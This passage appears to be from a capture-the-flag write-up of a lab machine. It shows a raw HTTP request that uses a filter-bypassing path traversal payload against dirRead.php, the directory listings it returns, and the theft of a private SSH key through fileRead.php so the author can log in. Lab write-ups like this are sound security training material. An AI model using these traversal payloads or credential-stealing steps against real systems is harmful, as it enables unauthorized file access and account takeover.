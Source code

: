 ```
POST /dirRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Connection: close

path=....//....//....//etc/
```

Game on. 

Chaning `/etc` for `/home` gave the following output:

```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Sun, 19 Aug 2018 17:42:50 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 19

[".","..","nobody"]
```

So we know we're the `nobody` user, and based on the output of `/etc/passwd` earlier we also know that `nobody` actually has a terminal to log in to. 

```
path=....//....//....//home/nobody
```

```
[".","..",".ash_history",".ssh",".viminfo","user.txt"]
```

OK, so we could grab `user.txt` right now if we wanted to. But let's take a look in that `.ssh` folder.

Inside there we can see a file called `.monitor` which, if we read it using the ever handy `fileRead.php` reveals what looks to be a private RSA key. So let's clean it up and see if we can use it to log in!

Copy and paste everything that isn't JSON into `vim` and we can clean this up with two short commands. 

In command mode `:` issue the following commands:

`%s/\\n/\r/g`

Then.

`%s/\\//g`
